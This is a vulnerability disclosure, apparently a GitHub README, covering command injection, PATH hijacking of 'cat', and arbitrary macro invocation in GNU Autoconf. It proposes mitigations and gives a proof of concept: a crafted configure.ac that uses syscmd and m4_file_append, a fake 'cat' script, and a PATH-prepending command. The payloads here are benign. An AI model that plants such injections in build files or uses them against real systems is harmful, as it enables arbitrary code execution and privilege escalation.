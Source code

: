 # Overview 

Arbitrary Code execution can be obtained up running `/usr/bin/autoconf` when a crafted `configure.ac` exploits any of the following 3 vulnerabilities:

*  Command injection in M4sugar due to lack of input sanitization (CWE-78).
*  `cat` command being executed without absolute path in M4sugar, leaving it vulnerable to an untrusted PATH (CWE-427).
* Invocation of arbitrary m4 macros in `configure.ac`.


**Date**: 11/25/2023
**Researcher**: Ally Petitt
**Product Tested**: Autoconf v2.72c and prior (all but the 3rd bullet point were [fixed here](https://git.savannah.gnu.org/cgit/autoconf.git/commit/?id=11d8824daada20055c855f46ad7c45237c1ff455))
**Impact**: Remote code execution that leads to the loss of availability, confidentiality, and integrity of the system. In certain cases it can also lead to privilege escalation.

# Technical Details 

## M4sugar - Multiple Vulnerabilities
The `m4_file_append` macro is defined starting on line 3272 of `lib/m4sugar/m4sugar.m4`. 

```
m4_define([m4_file_append],
[m4_syscmd([cat >>$1 <<_m4eof
$2
_m4eof
])
```

This macro has 2 vulnerabilities. Proof-of-Concept examples of each will be shown in the "PoC" section to provide both clarification and an easy way to validate the issues.

1. The first vulnerability is that `cat` is called without an absolute path, leaving it prone to modification of the $PATH environmental variable. A privileged user on the system may set the $PATH to point to a directory they control containing a malicious executable called `cat`. In scenarios where `autoconf` has an SUID bit set or can otherwise be run with elevated privileges, this can lead to privilege escalation.

*Mitigation**: Replace "cat" with "/usr/bin/cat" in the definition of `m4_file_append`.

2. The arguments passed to `m4_file_append` are not sanitized before being passed into `m4_syscmd`. This means that hackers can directly insert malicious code as an argument to the macro and it will be executed when `autoconf` is ran!

*Mitigation**: If possible, implement a more secure way to append to a file that does not involve running shell commands. I wish I could provide more guidance here but I am not very proficient in m4. In the case that this is not feasible, treat `$1` and `$2` as untrusted input and sanitize them. 


## Autoconf - Invocation of Arbitrary M4 Macros 
Autoconf appears to execute m4 macros directly through the `configure.ac` file. Without any sanitization, adversaries are able invoke arbitrary macros including `syscmd` and the aforementioned vulnerable `m4_file_append`. This can lead to the execution of code upon running `autoconf`. An example will be shown in the "PoC" section below.

It is worth noting that while executing macros is part of Autoconf's functionality, I did not find evidence that the arbitrary execution of commands was an intentional part of this design. As such, the lack of restriction on the macros that can be called results in a larger attack surface that can be taken advantage of by hackers.

**Mitigation**: Enforce a whitelist of macros that are able to be executed from `configure.ac`.


# PoC

This Proof-of-Concept involves the creation of 4 files within the same directory. The contents of these files are the following (file names are commented at the top of each code block):

```
# congfigure.ac
AC_INIT([hello], [1.0])
AC_CONFIG_SRCDIR([hello.c])
AC_CONFIG_AUX_DIR([build-aux])
AC_PROG_CC

# Trigger the vulnerabilities by writing to a file called `vulns`
syscmd(echo vuln1 > vulns) # vuln1
m4_file_append(test, `echo vuln2 >> vulns`) # vuln2 and vuln3


AC_CONFIG_FILES([Makefile])
AC_OUTPUT
```

```
# Makefile.am
bin_PROGRAMS = hello
hello_SOURCES = hello.c
```

```
# hello.c
#include <stdio.h>
int main(int argc, char** argv) {
  printf("hello world!\n");
  return 0;
}
```

```
# cat
#!/bin/bash
echo vuln3 >> vulns
```

The resulting directory listing should be the following:

```
$ ls
cat  configure.ac  hello.c  Makefile.am
```

Once the files are verified to be correct, the 3 vulnerabilities can be exploited by running the command below.
```
$ export PATH=$(pwd):$PATH && autoconf
```

A new file will be created called `vulns`. Each vulnerability that was exploited wrote to this file to create the content below.
```
vuln1
vuln2
vuln3
```


Note that exploiting vulnerabilities 1 and 2 (the vulnerabilities that write "vuln1" and "vuln2" to the `vulns` file, respectively) does not require the $PATH environmental variable to be set and can simply be exploited with the below command.
```
$ autoconf --force
```

These files are included in this GitHub repository.

